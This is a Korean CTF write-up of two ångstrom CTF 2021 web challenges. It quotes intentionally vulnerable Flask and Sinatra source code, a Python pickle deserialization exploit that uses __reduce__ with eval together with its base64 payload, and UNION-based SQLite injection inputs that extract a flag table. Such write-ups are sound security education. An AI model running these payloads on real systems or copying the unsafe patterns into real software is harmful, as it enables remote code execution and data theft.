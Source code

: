 ```yaml
---
layout: post
date: 2021-04-04 00:00:11
title: "ångstrom CTF 2021 Write Up"
categories: CTF
tags: [RCE, SQL Injection]
author:
  - Jeongwon Jo

---
```

심심해서 4일에 1시간 정도했는데 역시 해킹은 취미가 딱인 거 같다 :)

---
## (Web) Jar [70 pts]

> Jar 문제는 Python Pickle 모듈에서 발생하는 역직렬화 RCE 취약점을 이용해 플래그를 획득하는 문제입니다.

```python
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

import pickle
import base64

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
	return send_file('pickle.jpg')

@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
	return response

app.run(threaded=True, host="0.0.0.0")
```
소스 코드를 보면 플래그는 `flag` 변수에 들어가 있는 것을 볼 수 있습니다. 그리고 index를 보면 `contentes`라는 쿠키의 값을 가져와서 `loads()` 함수의 인자 넘겨주기 때문에 역직렬화 취약점이 발생합니다. 그러니 역직렬화 취약점을 이용햇 REC를 트리거해서 템블릿 변수로 `flag` 변수를 넘겨주면 될 거 같습니다.

```python
import pickle, base64
class exploit():
    def __reduce__(self):
            return (eval, ("{flag}", ))
print(base64.b64encode(pickle.dumps(exploit())))
# b'gANjYnVpbHRpbnMKZXZhbApxAFgGAAAAe2ZsYWd9cQGFcQJScQMu'
```
위와 같이 익스 코드를 작성해주었습니다.

![](https://github.com/wjddnjs33/image/blob/main/a%CC%8AngstromCTF%202021/Jar/1.png?raw=true)

`contentes`라는 쿠키의 값으로 위 페이로드를 넘겨주니 플래그를 얻을 수 있었습니다.

> FLAG : actf{you_got_yourself_out_of_a_pickle}

---
## (Web) Sea of Quills [70 pts]

> Sea of Quills 문제는 SQLite Injection 문제입니다.

```ruby
require 'sinatra'
require 'sqlite3'

set :bind, "0.0.0.0"
set :port, 4567

get '/' do
	db = SQLite3::Database.new "quills.db"
	@row = db.execute( "select * from quills" )
	

	erb :index
end

get '/quills' do
	erb :quills	

end


post '/quills' do
	db = SQLite3::Database.new "quills.db"
	cols = params[:cols]
	lim = params[:limit]
	off = params[:offset]
	
	blacklist = ["-", "/", ";", "'", "\""]
	
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
		end
	}

	
	if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end

	@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])

	p @row

	erb :specific
end
```
문제에서 소스 코드를 제공해주는데 루비인 것을 볼 수 있습니다. 코드를 보면 `cols`, `limit`, `offset`의 값을 가져와서 필터링 검증을 하고, 쿼리문 내에 넣은 후에 `execute()` 함수르 이용해서 쿼리르 실행하는 것을 볼 수 있습니다.

여기서 `union` 키워드를 필터링하지 않아 쿼리를 2개 이상 실행시켜줄 수 있을 거 같습니다. cols에 값을 `select`와 `from`에 사이에 넣어주는 것을 볼 수 있는데 만약 `sql from sqlite union select <column>`을 넣어준다면 SQL Injection을 할 수 있습니다.

![](https://github.com/wjddnjs33/image/blob/main/a%CC%8AngstromCTF%202021/Sea%20of%20Quills/3.png?raw=true)

요청을 보내보니 `cols`의 값으로 `url`, `desc`, `name`이 넘어가는 것을 보아 이 3개가 `quills` 테이블의 존재하는 컬럼인 거 같습니다.

![](https://github.com/wjddnjs33/image/blob/main/a%CC%8AngstromCTF%202021/Sea%20of%20Quills/1.png?raw=true)

```
limit  : 1
offset : 0
cols   : sql from sqlite_msater union select url
```
위와 같이 보내주니 메타 테이블 `sqlite_master`를 잘 참조하는 것을 볼 수 있고, 여기서 `flagtable`라는 테이블에 `flag`라는 컬럼이 존재하는 것을 알 수 있었습니다.

![](https://github.com/wjddnjs33/image/blob/main/a%CC%8AngstromCTF%202021/Sea%20of%20Quills/2.png?raw=true)

```
limit  : 1
offset : 0
cols   : flag from flagtable union select url
```
마지막을 위와 같이 `flagtable` 테이블을 참조하니 플래그가 나오는 것을 볼 수 있었습니다.

> FLAG : actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}

---

